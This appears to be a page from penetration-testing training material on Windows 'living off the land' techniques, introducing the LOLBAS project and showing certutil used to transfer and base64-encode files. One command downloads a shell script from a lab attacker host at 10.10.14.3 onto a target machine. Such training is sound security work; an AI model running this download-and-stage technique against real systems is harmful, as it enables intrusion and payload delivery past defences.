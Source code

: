# Miscellaneous Techniques

## Living Off The Land Binaries and Scripts (LOLBAS)

The [LOLBAS project](https://lolbas-project.github.io/) documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker. Some interesting functionality may include:

|                        |                  |                  |
| ---------------------- | ---------------- | ---------------- |
| Code execution         | Code compilation | File transfers   |
| Persistence            | UAC bypass       | Credential theft |
| Dumping process memory | Keylogging       | Evasion          |
| DLL hijacking          |                  |                  |

### **Transferring File with Certutil**

One classic example is [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), whose intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

```powershell
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

### **Encoding File with Certutil**

We can use the `-encode` flag to encode a file using base64 on our Windows attack host and copy the contents to a new file on the remote system.

```cmd-session
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

### **Decoding File with Certutil**

Once the new file has been created, we can use the `-decode` flag to decode the file back to its original contents.

```cmd-session
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```
